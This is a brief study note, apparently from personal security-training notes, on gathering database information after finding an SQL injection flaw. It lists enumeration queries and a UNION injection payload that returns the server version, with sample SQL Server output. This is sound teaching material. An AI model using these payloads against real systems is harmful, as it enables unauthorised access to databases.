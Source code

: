 
## Examining the Database

Following initial identification of an SQL injection vulnerability, it is generally useful to obtain
some information about the database itself. This information can often pave the way for further
exploitation.
- Specific syntax depends on the database type

Enumerating Version (Oracle)
```
SELECT * FROM v$version
```

Enumerating Tables
```
SELECT * FROM information_schema.tables
```


## More Examination

Information you need to gather:
- Type of database software
- Version of database software
- Contents of the database (columns and tables)


Querying the Database Type and Version
![[Pasted image 20221210161338.png]]

Example of using a UNION attack:
```
' UNION SELECT @@version--
```

Might return the following version information:
```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build
14393: ) (Hypervisor)
```

